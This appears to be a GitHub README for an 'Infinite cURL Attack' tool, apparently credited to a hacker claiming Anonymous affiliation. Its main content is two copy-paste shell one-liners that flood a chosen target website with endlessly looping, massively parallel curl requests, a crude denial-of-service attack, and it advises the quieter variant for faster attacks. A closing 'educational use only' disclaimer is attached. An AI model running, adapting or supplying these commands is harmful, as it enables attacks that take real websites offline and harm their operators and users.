 <img src="https://i.pinimg.com/originals/23/a1/1f/23a11f14ab93d3ed4541960141e380ad.gif" width="200" alt="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." title="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." />  

# Infinite_cURL_Attack
Infinite cURL Attack

**USAGE** : Copy-Paste-Edit the following code (replace **_https://Your.Target.Website.com_** with your target website) in the Terminal/CMD & press Enter.  

```
while (true); do seq 1 1000000000 | xargs -n1 -P 1000000000 curl -I -i -v -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com"; done;
```  

If you don't want logs in your terminal and make the attacks faster, do this:  

```
while (true); do seq 1 1000000000 | xargs -n1 -P 1000000000 curl -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com"; done;
```  

**IMPORTANT:**  
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY!  
IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT.  
BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.
